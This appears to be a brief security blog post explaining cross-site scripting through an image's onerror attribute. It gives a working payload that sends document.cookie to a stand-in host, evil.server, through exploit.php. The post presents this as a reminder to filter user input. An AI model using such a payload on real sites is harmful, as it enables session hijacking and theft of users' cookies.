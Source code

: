 ```yaml
---
layout: post
title: XSS with Img OnError attribute
tags:
- javascript
- php
- security
---
```

So much of my time is spent worrying over the src or href tags on images and links - that I sometimes forget about the other attributes.

Imagine being able to make an image which has no black-flagged content in the src but yet can still make a remote request, logging the user's cookie information?  That's right - this can be done - using the `onerror` attribute of an image.

What you need to do is to create an image link that is obviously broken or empty.  Then, javascript handles such events by throwing an error for that element.  Add an item to the `onerror` attribute to request a remote URL as your images src - which you add on document.cookie.  The remote script logs all requests, and then displays an image.

Check out the code below:

Source page without proper filtering:

```html
<html>
  <body>
    <h1>test</h1>
    <h2>asdf</h2>
    <img onerror="this.src='http://evil.server/exploit.php?'+document.cookie" src=""></img>
  </body>
</html>
```

Then, on `evil.server`, place your image.  Finally, top it off with the following code in **`exploit.php`**

Easy as that.  Just another reminder to properly filter your use submitted content.
